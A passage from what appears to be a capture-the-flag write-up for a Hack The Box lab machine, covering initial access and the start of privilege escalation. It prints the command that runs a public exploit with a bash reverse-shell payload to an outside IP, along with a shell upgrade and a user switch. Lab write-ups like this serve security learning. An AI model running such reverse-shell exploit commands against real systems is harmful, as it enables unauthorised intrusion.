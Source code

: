 and got the password **xxxxxx** for the user **openmr_admin**.

Once I recovered the credentials I was able to use the exploit to get a reverse shell
`python2 45161 -u openmr_admin -p xxxxxx -c 'bash -i >&/dev/tcp/10.10.14.150/8080 0>&1' http://hms.htb`

<img src="./img/revshell1.png"  width="650"/>
 upgrade shell `python3 -c "import pty;pty.spawn('/bin/bash')"` and change user
 `su ash`
 
 got flag
 
 <img src="./img/user.png"  width="300"/>


# Root

The next step was to carry out privesc.

There is a memcached server on port 11211

<img src="./img/netstat.png"  width="650"/>
